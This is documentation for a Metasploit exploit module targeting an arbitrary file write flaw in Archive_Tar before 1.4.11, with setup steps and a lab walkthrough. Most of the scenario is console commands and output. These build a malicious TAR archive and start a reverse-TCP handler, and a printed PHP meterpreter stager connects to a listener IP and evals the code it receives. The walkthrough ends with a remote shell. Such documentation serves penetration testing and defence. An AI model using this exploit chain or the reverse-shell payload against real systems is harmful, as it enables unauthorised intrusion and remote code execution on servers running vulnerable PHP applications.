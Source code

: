 ## Vulnerable Application

[Archive_Tar](https://github.com/pear/Archive_Tar/) is a plugin for the
[PEAR PHP development framework](https://pear.php.net/) that allows developers
the ability to create, delete, modify and extract files from TAR archives.

This module takes advantages of Archive_Tar < 1.4.11's lack of validation of file
stream wrappers contained within filenames to write an arbitrary file containing
user controlled content to an arbitrary file on disk. Note that the file will be
written to disk with the permissions of the user that PHP is running as, so it may
not be possible to overwrite some files if the PHP user is not appropriately
privileged.


## Verification Steps

1. **Install** the PEAR framework using the instructions at https://pear.php.net/manual/en/installation.getting.php
1. **Verify** the PEAR framework is working using the instructions at https://pear.php.net/manual/en/installation.checking.php
1. **Download** the PoC files from the original advisory at https://github.com/pear/Archive_Tar/files/5551831/exploit.zip.
1. **Unzip** the files to a sample directory
1. Open up `msfconsole`.
1. `use exploit/multi/fileformat/archive_tar_arb_file_write`
1. `set FILENAME exploit.tar`
1. `set FILEPATH *path to the file to overwrite on the target system*`
1. `run`
1. **Copy** the generated `exploit.tar` file to the `file_proc` directory within the directory you expanded `exploit.zip` to from earlier.
1. **Run** `php vulnerable.php`
1. **Verify** that the file was created in the location you specified in the `FILEPATH` parameter,
with the contents of the PHP shell that you specified for the `PAYLOAD` parameter.


## Options

### FILENAME
The name of the TAR file to be created locally

### FILEPATH
The full path to the file on the target system that should be
created or overwritten with the code for a PHP shell.


## Scenarios

### Archive_Tar v1.4.10

First create the malicious TAR file and set up the listener:

```
msf6 > use exploit/multi/fileformat/archive_tar_arb_file_write
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > show options

Module options (exploit/multi/fileformat/archive_tar_arb_file_write):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME                   no        The file name.
   FILEPATH  /tmp/msf.php     yes       The full path to the file to write on the target.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.86.152    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Archive_Tar < 1.4.11


msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > set FILENAME test.tar
FILENAME => test.tar
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > set FILEPATH /tmp/test.php
FILEPATH => /tmp/test.php
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > run

[*] Writing file: test.tar (3072 bytes) ...
[+] test.tar stored at /home/test/.msf4/local/test.tar
msf6 exploit(multi/fileformat/archive_tar_arb_file_write) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 172.30.86.152
LHOST => 172.30.86.152
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
```

Then copy the file over and into the expanded copy of https://github.com/pear/Archive_Tar/files/5551831/exploit.zip
and run vulnerable.php to simulate an application opening a tar file and extracting its contents.

```
 ~/drupal/exploit/file_poc  ls                                                                                     ✔ │ 2.6.6 Ruby
create_tar.py  exploit.tar  input_file.txt  php_errors.log  steps.sh  vulnerable.php
 ~/drupal/exploit/file_poc  rm -rf exploit.tar                                                                     ✔ │ 2.6.6 Ruby
 ~/drupal/exploit/file_poc  cp /home/test/.msf4/local/test.tar exploit.tar                                     ✔ │ 2.6.6 Ruby
 ~/drupal/exploit/file_poc  ls -alh /tmp/test.php                                                                  ✔ │ 2.6.6 Ruby
ls: cannot access '/tmp/test.php': No such file or directory
 ~/drupal/exploit/file_poc  php vulnerable.php                                                                   2 х │ 2.6.6 Ruby
 ~/drupal/exploit/file_poc  cat vulnerable.php                                                                     ✔ │ 2.6.6 Ruby
<?php

  require_once('../Archive/Tar.php');

  $archive = new Archive_Tar('exploit.tar');
  $archive->extract();
 ~/drupal/exploit/file_poc  ls -alh /tmp/test.php                                                                  ✔ │ 2.6.6 Ruby
-rw-rw-r-- 1 test test 1.1K Jan 15 17:54 /tmp/test.php
 ~/drupal/exploit/file_poc  cat /tmp/test.php                                                                      ✔ │ 2.6.6 Ruby
/*<?php /**/ error_reporting(0); $ip = '172.30.86.152'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

Now we just have to run the PHP file to simulate a user browsing to the web page:

```
php /tmp/test.php
```

And the shell will be obtained:

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
[*] Sending stage (39282 bytes) to 172.30.86.152
[*] Meterpreter session 2 opened (172.30.86.152:4444 -> 172.30.86.152:56754) at 2021-01-15 18:02:55 -0600

meterpreter > getuid
Server username: test (1000)
meterpreter > uname -a
[-] Unknown command: uname.
meterpreter > shell
Process 29349 created.
Channel 0 created.
uname -a
Linux test-Virtual-Machine 5.8.0-36-generic #40~20.04.1-Ubuntu SMP Wed Jan 6 10:15:55 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
